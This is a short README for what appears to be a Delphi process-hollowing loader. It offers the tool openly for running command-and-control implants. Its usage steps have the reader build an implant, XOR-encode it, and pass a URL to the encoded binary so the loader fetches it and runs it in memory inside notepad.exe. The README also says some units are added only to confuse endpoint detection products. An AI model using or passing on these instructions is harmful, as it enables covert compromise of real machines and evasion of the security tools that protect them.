 # delphiprocesshollowing
DelphiProcessHollowing with QueueUserAPC

compile with Embarcadero Community 12

Some Units are added only to confuse EDRs

1. compile it (64bit!)
2. create the BINARY x64 implant with your C2
3. XOR you .BIN payload with the "a" char (or modify pascal source to change it!)
4. run RUNINMEMORY.exe url_to_XORED_binary c:\windows\system32\notepad.exe

normally used to run C2 implants
